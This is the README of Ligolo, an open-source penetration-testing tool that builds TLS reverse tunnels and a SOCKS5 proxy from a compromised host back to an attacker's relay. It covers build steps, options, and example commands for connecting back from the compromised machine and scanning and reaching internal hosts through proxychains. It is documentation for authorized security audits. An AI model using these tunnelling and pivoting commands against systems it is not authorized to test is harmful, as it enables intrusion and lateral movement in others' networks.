


# Ligolo : Reverse Tunneling made easy for pentesters, by pentesters

[](https://forthebadge.com)
[](https://forthebadge.com)


<!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
## Table of Contents

- [Introduction](#introduction)
- [Use case](#use-case)
- [Quick Demo](#quick-demo)
- [Performance](#performance)
- [Usage](#usage)
  - [Setup / Compiling](#setup--compiling)
  - [How to use?](#how-to-use)
  - [TL;DR](#tldr)
  - [Options](#options)
- [Features](#features)
- [To Do](#to-do)
- [Licensing](#licensing)
- [Credits](#credits)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

## Introduction

**Ligolo** is a *simple* and *lightweight* tool for establishing *SOCKS5* or *TCP* tunnels from a reverse connection in complete safety (TLS certificate with elliptical curve).

It is comparable to *Meterpreter* with *Autoroute + Socks4a*, but more stable and faster.

## Use case

You compromised a Windows / Linux / Mac server during your external audit. This server is located on a LAN network and
you want to establish connections to other machines on this network.

**Ligolo** can setup a tunnel to access internal server's resources.

## Quick Demo

Relay of a RDP connection using Proxychains (WAN).



## Performance

Here is a screenshot of a speedtest between two 100mb/s hosts (ligolo / localrelay). Performance may vary depending on the system and network configuration.



## Usage

### Setup / Compiling

Make sure *Go* is installed and working.

1. Get Ligolo and dependencies

```
cd `go env GOPATH`/src
git clone https://github.com/sysdream/ligolo
cd ligolo
make dep
```

2. Generate self-signed TLS certificates (will be placed in the *certs* folder)

```
make certs TLS_HOST=example.com
```

NOTE: You can also use your own certificates by using the `TLS_CERT` make option when calling *build*. Example: `make build-all TLS_CERT=certs/mycert.pem`.

3. Build

* 3.1. For all architectures

```
make build-all
```

* 3.2. (or) For the current architecture

```
make build
```

### How to use?

*Ligolo* consists of two modules:

- localrelay
- ligolo

*Localrelay* is intended to be launched on the control server (the attacker server).

*Ligolo* is the program to run on the target computer.

For *localrelay*, you can leave the default options. It will listen on every interface on port 5555 and wait for connections from *ligolo* (`-relayserver` parameter).

For *ligolo*, you must specify the IP address of the relay server (or your attack server) using the `-relayserver ip:port` parameter.

You can use the `-h` option for help.

Once the connection has been established between *Ligolo* and *LocalRelay*, a *SOCKS5* proxy will be set up on TCP port `1080` on the relay server (you can change the TCP address/port using the *-localserver* option).

After that, all you have to do is use your favorite tool (Proxychains for example), and explore the client's LAN network.

### TL;DR

On your attack server.

```
./bin/localrelay_linux_amd64
```

On the compromise host.

```
> ligolo_windows_amd64.exe -relayserver LOCALRELAYSERVER:5555
```

Once the connection is established, set the following parameters on the ProxyChains config file (On the attack server):

```
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5     127.0.0.1 1080
```

Profit.

```
$ proxychains nmap -sT 10.0.0.0/24 -p 80 -Pn -A
$ proxychains rdesktop 10.0.0.123
```

### Options

*Localrelay* options:

```
Usage of localrelay:
  -certfile string
    	The TLS server certificate (default "certs/server.crt")
  -keyfile string
    	The TLS server key (default "certs/server.key")
  -localserver string
    	The local server address (your proxychains parameter) (default "127.0.0.1:1080")
  -relayserver string
    	The relay server listening address (the connect-back address) (default "0.0.0.0:5555")
```

*Ligolo* options:

```
Usage of ligolo:
  -autorestart
    	Attempt to reconnect in case of an exception
  -relayserver string
    	The relay server (the connect-back address) (default "127.0.0.1:5555")
  -skipverify
    	Skip TLS certificate pinning verification
  -targetserver string
    	The destination server (a RDP client, SSH server, etc.) - when not specified, Ligolo starts a socks5 proxy server
```

## Features

- TLS 1.3 tunnel with TLS pinning
- Multiplatforms (Windows / Linux / Mac / ...)
- Multiplexing (1 TCP connection for all flows)
- SOCKS5 proxy or simple relay

## To Do

- Better timeout handling
- SOCKS5 UDP support
- Implement mTLS

## Licensing

GNU General Public License v3.0 (See LICENSING).

## Credits

* Nicolas Chatelain <n.chatelain -at- sysdream.com>

[](https://sysdream.com)
